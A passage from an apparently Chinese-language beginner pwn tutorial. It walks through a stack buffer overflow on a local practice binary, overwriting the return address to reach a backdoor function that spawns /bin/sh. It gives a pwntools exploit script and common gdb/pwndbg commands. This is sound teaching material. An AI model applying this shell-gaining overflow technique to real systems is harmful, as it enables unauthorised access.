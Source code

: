 这句代码的功能就是执行 `/bin/sh`，即获取 shell，我们只要能把程序执行流劫持到这里就能拿到 shell 了。

之后我们开始写利用脚本（Exploit）。创建 `exp.py` 文件，首先写上最基本的框架：

```Python
from pwn import *

context.log_level='debug'
context(arch='amd64', os='linux')

ELFpath = './pwn'
p = process(ELFpath)
gdb.attach(p)

p.interactive()
```

我们要往 `buf` 写入的东西就是「16 个随便的字符」+「8 字节的 rbp_old」+「8字节的函数返回地址」，即 `b'a'*0x10 + p64(0) + p64(0x4011BD)`.

这样我们就能更改 `rbp_old` 的数值为 0，更改函数的返回地址到 `0x4011BD`.

然后我们使用 `send` 函数与程序进行交互。

```Python
from pwn import *

context.log_level='debug'
context(arch='amd64', os='linux')

ELFpath = './pwn'
p = process(ELFpath)
gdb.attach(p)

p.send(b'a'*0x10 + p64(0) + p64(0x4011BD))# [!code highlight]

p.interactive()
```

之后在终端运行 `exp.py` 脚本。

![test - 本地利用](/assets/images/learn/pwn-run-exp-local_test.png)

可以看到我们已经成功运行了，而且通过 `gdb.attach()` 成功开启 gdb 进行调试。

下面是 gdb/pwndbg 常用的命令：

- `ni`: 执行到当前函数的下一条汇编指令
- `si`: 单步步入，和 `ni` 的区别就是 call<span data-desc>（调用）</span>函数的时候会一步步进入所 call 的函数，而不是像 `ni` 那样直接跳过
- `fin`: 执行至当前函数结束
- `q`: 退出gdb
- `vmmap`: 查看当前内存中的每个段的信息
- `tele 0x????`: 查看地址为 `0x????` 的内存中存储的内容

![backdoor - 本地利用](/assets/images/learn/pwn-run-exp-local_backdoor.png)

我们执行到 `main` 函数结束的地方，就可以看到我们成功劫持程序的执行流到 `backdoor` 函数。
